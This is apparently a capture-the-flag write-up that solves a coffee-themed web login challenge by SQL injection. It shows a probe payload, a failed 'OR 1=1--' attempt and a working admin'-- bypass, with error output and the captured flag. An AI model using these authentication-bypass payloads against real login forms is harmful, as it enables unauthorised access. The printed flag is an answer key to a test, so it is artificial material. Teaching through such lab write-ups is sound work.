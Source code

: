 # INFO

We're in a login page. So it's probably SQL injection attack, let's make a test payload.

`login = 'admin--`
`password = 'admin--`

Ouput :

`Warning: SQLite3::query(): Unable to prepare statement: 1, near "admin": syntax error in /var/www/coffee/index.php on line 23 Fatal error: Uncaught Error: Call to a member function fetchArray() on bool in /var/www/coffee/index.php:24 Stack trace: #0 {main} thrown in /var/www/coffee/index.php on line 24`

SQLite error. So we've a PoC. Let's exploit it.

# First payload (failed)

We want to login as admin so :

`login = admin`
`password = 'OR 1=1--` --> Basic payload for sql injection to make the test true when it looks at the password = our_input

Output :

`Hello user1<br>Your message: I want coffee...  `

Bad response, we want to be admin...
Let's try an other way.

# Second Payload (Good one)

The idea is the following: our login gonna be admin, and we want to stop the filter there (-> without checking for password)

`login = admin'--` --> in the SQL code that makes: `Select * from users where username='admin'–' and password='WHATEVER';` and the -- make the end of the line as a comment.
`password = WHATEVER`

Output :

`Hello admin<br>Your message: Coffee code: horiz0nx{$uper_c00ffeeeee_c0deee}` 


# Gotcha !

horiz0nx{$uper_c00ffeeeee_c0deee}